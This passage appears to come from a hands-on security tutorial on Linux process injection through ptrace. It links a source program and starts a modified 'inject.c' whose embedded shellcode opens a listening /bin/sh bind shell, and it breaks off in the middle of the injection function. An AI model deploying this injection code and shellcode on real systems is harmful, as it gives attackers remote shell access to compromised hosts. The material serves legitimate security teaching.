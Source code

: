 GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

The shellcode used in the above-referenced C program will trigger a shell on the running process. Replace the shellcode with the shellcode provided at the exploit db link.

* Now use vim to save the below-modified program as inject.c

```bash
vim inject.c
```

![](./images/03/09.png)


**Modified Program**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 87

unsigned char *shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";

int inject_data(pid_t pid, unsigned char *src, void *dst, int len)
{
int i;
uint32_t *s = (uint32_t *)src;
uint32_t *d = (uint32_t *)dst;

for (i = 0; i < len; i += 4, s++, d++)
{
```